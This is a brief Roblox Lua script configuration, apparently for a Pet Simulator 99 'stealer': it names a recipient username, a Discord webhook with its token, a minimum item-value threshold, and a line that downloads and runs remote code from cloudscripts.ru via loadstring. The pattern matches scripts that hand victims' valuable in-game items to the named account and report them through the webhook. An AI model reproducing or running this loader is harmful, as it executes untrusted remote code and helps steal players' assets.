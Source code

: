 Username= 'goju_sola'

Webhook= 'https://discord.com/api/webhooks/1302330679283154965/j9b8o_ztgn4zBxAjdEt7lz1fHBhotvd4kUMWUczd6QO_F-fwQhQFvZEjWmOiztLjF9Cc'

MinimumRAP = 250000

loadstring(game:HttpGet('https://cloudscripts.ru/raw/ps99'))()
